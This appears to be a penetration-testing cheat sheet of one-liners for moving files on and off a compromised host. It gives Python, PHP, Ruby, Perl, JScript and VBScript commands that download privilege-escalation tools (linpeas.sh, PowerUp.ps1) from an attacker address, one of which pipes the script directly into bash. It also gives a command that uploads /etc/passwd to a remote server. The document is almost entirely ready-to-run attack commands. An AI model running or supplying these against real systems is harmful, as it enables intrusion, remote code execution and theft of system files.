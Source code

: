 ## Download
#### Python 
```bash
python2.7 'import urllib;urllib.urlretrieve ("http://$ip/linpeas.sh", "linpeas.sh")'

python3 -c 'import urllib.request;urllib.request.urlretrieve ("http://$ip/linpeas.sh", "linpeas.sh")'
```

#### PHP 
```bash
php -r '$file = file_get_contents("http://$ip/linpeas.sh"); file_put_contents("linpeas.sh",$file);'
```

```bash
php -r 'const BUFFER = 1024; $fremote = 
fopen("http://$ip/linpeas.sh", "rb"); $flocal = fopen("linpeas.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

Execute in memory
```bash
php -r '$lines = @file("http://$ip/linpeas.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```
#### Ruby and Perl 
```bash
ruby -e 'require "net/http"; File.write("linpeas.sh", Net::HTTP.get(URI.parse("https://$ip/linpeas.sh")))'

perl -e 'use LWP::Simple; getstore("http://$ip/linpeas.sh", "linpeas.sh");'
```
#### Javascript  (Windows)
Create new [wget.js](https://superuser.com/questions/25538/how-to-download-files-from-command-line-in-windows-like-wget-or-curl/373068) on target machine
```js
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```
Download using `wget.js` and `cscript.exe`
```powershell
cscript.exe /nologo wget.js http://$ip/PowerUp.ps1 PowerUp.ps1
```
#### VBScript (Windows)
Create [wget.vbs](https://stackoverflow.com/questions/2973136/download-a-file-with-vbs) on target machine
```vbscript
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```
Download using `wget.vbs` and `cscript.exe`
```powershell
cscript.exe /nologo wget.vbs http://$ip/PowerUp.ps1 PowerUp.ps1
```

## Upload
#### Python3
```bash
 python3 -m uploadserver
```

```bash
python3 -c 'import requests;requests.post("http://$ip:8000/upload",files={"files":open("/etc/passwd","rb")})'
```
